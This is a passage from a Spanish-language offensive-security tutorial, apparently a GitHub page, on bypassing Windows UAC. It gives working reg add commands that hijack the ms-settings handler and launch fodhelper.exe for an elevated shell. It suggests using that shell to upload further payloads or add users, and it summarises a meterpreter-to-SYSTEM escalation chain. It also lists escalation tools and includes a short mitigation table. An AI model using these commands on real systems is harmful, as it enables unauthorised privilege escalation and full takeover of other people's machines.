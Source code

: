 Luego, ejecuta estos comandos para modificar el registro:

```cmd
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v "DelegateExecute" /f
```

Y ejecuta:

```cmd
fodhelper.exe
```

⚠️ Se abrirá una terminal con privilegios de administrador.

Desde ahí puedes ejecutar comandos, subir otro payload, o agregar usuarios al sistema.

---

### 🔐 ¿Cómo protegerse contra UAC Bypass?

| Riesgo                       | Mitigación                                           |
| ---------------------------- | ---------------------------------------------------- |
| Claves de registro editables | Monitor con herramientas como Sysmon                 |
| Aplicaciones auto-elevadas   | Restringir ejecución de `fodhelper.exe`, `sdclt.exe` |
| UAC muy bajo o desactivado   | Configurar UAC al nivel más alto                     |
| Usuario con derechos admin   | Crear cuentas de usuario estándar por defecto        |

---

### ✅ RESUMEN PASO A PASO

1. Obtener sesión básica con `meterpreter`.
2. Verificar que el usuario tenga privilegios pero sin elevación.
3. Usar módulo de UAC Bypass (`fodhelper`, `eventvwr`, etc.).
4. Se ejecuta nuevo payload como administrador (NT AUTHORITY\SYSTEM).
5. Control total del sistema.

---

### 📦 BONUS: Herramientas útiles

| Herramienta      | Uso                                    |
| ---------------- | -------------------------------------- |
| `winpeas.exe`    | Enumera rutas para escalar privilegios |
| `PowerUp.ps1`    | Búsqueda de vulnerabilidades locales   |
| `UACME` (github) | Colección de técnicas reales de bypass |

---

[🔼](#índice)

---